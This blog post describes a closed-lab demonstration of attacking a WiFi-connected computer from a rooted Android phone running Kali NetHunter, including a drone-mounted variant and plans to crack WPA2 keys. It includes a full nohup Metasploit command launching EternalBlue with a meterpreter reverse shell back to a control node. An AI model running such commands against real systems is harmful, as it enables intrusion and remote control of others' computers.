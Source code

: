 # Hacking a Computer Remotely through a Phone
In a recent demonstration of cyber and electronic warfare capabilities, I had the opportunity to enable access into a network by exploiting a computer remotely through a cell phone. In this blog post, I’ll document some of the challenges that were encountered and how they were overcome.
# Scenario
The scenario for this demonstration was: an offensive cyber operations team wants to gain access into a targeted computer network which includes a wireless access point. The targeted network is firewalled and NAT’d, and social engineering techniques such as spear phishing have been unsuccessful. In order to gain access into the network, a human source is used to approach the facility that houses the network (think a residential building) and gains close enough proximity to sense the radio frequency (RF) emissions from the facility.

In this scenario, the human source cannot get a laptop into range of the WiFi emissions, but something smaller like a phone can be brought close enough. A partner organization (undisclosed due to NDA) provides an application for rooted Android devices that can control the radios on that Android device for sampling the RF spectrum. The human source does not necessarily know how to hack and may not be able to do so surreptitiously, but that tool also enables terminal access to the cell phone. From that starting point, we made a concept of operations that is illustrated in the following picture, where a remote operator would connect to the terminal of the phone, then launch an attack over the wireless network to the targeted computer.
 ![](DraggedImage.tiff)
Taking a crawl, walk, run approach, this scenario had a pre-identified target connected to an unsecured wireless network. This was also a closed LAN, so the cloud in the above picture really represents a network created through five Linksys WRT54G routers, with one acting as a core router and the other four as boundary routers for different “cities”.
# Kali Nethunter
The first thing I wanted to figure out was how to launch an exploit from a cell phone. The [Kali NetHunter](https://www.kali.org/kali-nethunter/) project allows you to install Kali onto a cell phone, including the Metasploit framework. I had a rooted Android phone at my disposal which had [Magisk](https://magisk.me) installed. Conveniently, Magisk has a module for NetHunter, so I downloaded the module and rebooted the device.

NetHunter uses a [chroot](https://man7.org/linux/man-pages/man2/chroot.2.html) to provide a filesystem to the utilities from the distribution.  You have the option of downloading the chroot from within NetHunter or downloading one manually and moving it to `/sdcard`. I manually downloaded the full chroot, moved it to `/sdcard` and then selected it with the Kali Chroot Manager. Next, I had to install a terminal emulator. I tried the Terminal Emulator for Android app, but Kali would not recognize it. The solution that worked for me was to download the [NetHunter Store](https://store.nethunter.com) and then install NetHunter Terminal from it.
## Accessing Kali Utilities Outside of NetHunter Terminal
The second thing I wanted to do was figure out how to access Kali utilities without launching the NetHunter Terminal. The remote terminal access to the phone did not have full interactive capabilities but provided the ability to launch arbitrary shell commands. Looking into the Kali NetHunter scripts, I found the chroot contents got extracted to `/data/local/nhsystem/kali-armhf`. The `chroot` help page says that I can execute commands as `chroot /path/to/chroot cmd args`. Combining that knowledge, I ran a test command which simply echo’d from the chroot.
Next was to craft a single command to execute a Metasploit command. The `msfconsole -x` command lets you “execute the specified string as a console command”. You can chain those strings together with semi-colons. For example, to craft a whole exploit you might use it as `msfconsole -x "use exploit; set target; set payload; exploit"`.
## SIGHUP
With a proof of concept for launching a Metasploit command from a remote session on the phone, we started doing mission rehearsal. During this time, I realized that I wouldn’t be able to launch the command once the phone had been joined to the Wifi network. The app that we were using to control the radios and to provide remote access did not have the ability to direct certain traffic (our C2 channel) through the cellular radio and other traffic (Metasploit) through the Wifi radio. “No problem”, we thought, just put a delay on command execution, as in `sleep 30; msfconsole -s`. Unfortunately, when the network changed from cell to Wifi, our TCP connection to the phone was severed, generating a [SIGHUP](https://en.wikipedia.org/wiki/SIGHUP) which resulted in the whole process tree being killed.
Thankfully, it is easy to prevent a process from dying when it receives the SIGHUP by using the `nohup` command and that command was present on the Android phone. The full command became:
  nohup /bin/sh -c "sleep 30; chroot /data/local/nhsystem/kali-armhf msfconsole -x \"use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.10.4; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.10; set lport 4444; exploit\"" &
I kicked the command off, our close access operator connected the phone to the Wifi network, and soon we had a shell from the target back to a C2 node attached to the “core” Linksys router. In another test, we strapped the phone to a DJI drone and added the `nmcli dev wifi connect network-ssid` command to the previous command to switch networks.
# Future Tests
As noted earlier, this event was part of a series following the crawl, walk, run methodology. As the crawl step, this event used an open Wifi network and a simple off the shelf exploit. For future events, we’d be looking at performing a packet capture using the capabilities of the partner’s Android application or by adding [Aircrack-ng](http://aircrack-ng.org) to the phone. After obtaining a packet capture from the Wifi radio, the results would get exfiltrated back to the operations center, where the WPA2 pre-shared key could be cracked, and used to join the phone to the network. We could also do more work with specialized antennas to allow the drone to be at a greater stand off distance, reducing its observability and increasing its survivability.
